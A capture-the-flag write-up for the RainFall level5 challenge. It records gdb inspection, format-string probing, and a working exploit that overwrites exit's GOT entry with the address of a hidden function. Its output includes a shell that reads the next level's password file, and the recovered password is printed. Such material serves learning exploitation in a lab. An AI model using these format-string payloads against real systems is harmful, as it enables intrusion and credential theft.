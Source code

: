 ret2plt

GOT PLT exploit -> https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got


```
(gdb) set height 30
(gdb) i func
0x080484a4  o
0x080484c2  n
0x08048504  main
```

n func calls prinft then exit
```
0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```


```
level5@RainFall:~$ python -c 'print "AAAA" + " |%p| " * 20 ' | ./level5
AAAA |0x200|  |0xb7fd1ac0|  |0xb7ff37d0|  |0x41414141|

level5@RainFall:~$ python -c 'print "AAAA" + " |%4$x| " ' | ./level5
AAAA |41414141|
```
```
(gdb) disass 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    *0x8049838
 ```
 "[We’re in the PLT, and we see that we’re performing a jmp, but this is not a typical jmp. This is what a jmp to a function pointer would look like. The processor will dereference the pointer, then jump to resulting address.](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)"

"Let’s check the dereference and follow the jmp. Note that the pointer is in the .got.plt"

"The PLT resolves actual locations in libc of functions you use and stores them in the GOT"

```
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:	0x080483d6
```



call o from n <===> ovveride exit (0x8049838) of by addr of o (0x080484a4)

(gdb) p 0x080484a4 - 4 = 134513824


 (python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n" '; cat) | ./level5
 
 ```
 level5@RainFall:~$ (python -c 'print "\x08\x04\x98\x38"[::-1] + "%134513824d" + "%4$n"'; cat -) | ./level5 > /dev/null
cat /home/user/level6/.pass 1>&2
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
 ```
 
 `"%134513824d%4$n"`
 
 Rappel:
``` 
(stdin), fd 0
(stdout),fd 1
(stderr),fd 2

pwd 1>&2, the standard output of the pwd command,
which would normally be printed to the terminal,
is instead redirected to the standard error,
and will be printed to the terminal as an error message.
```







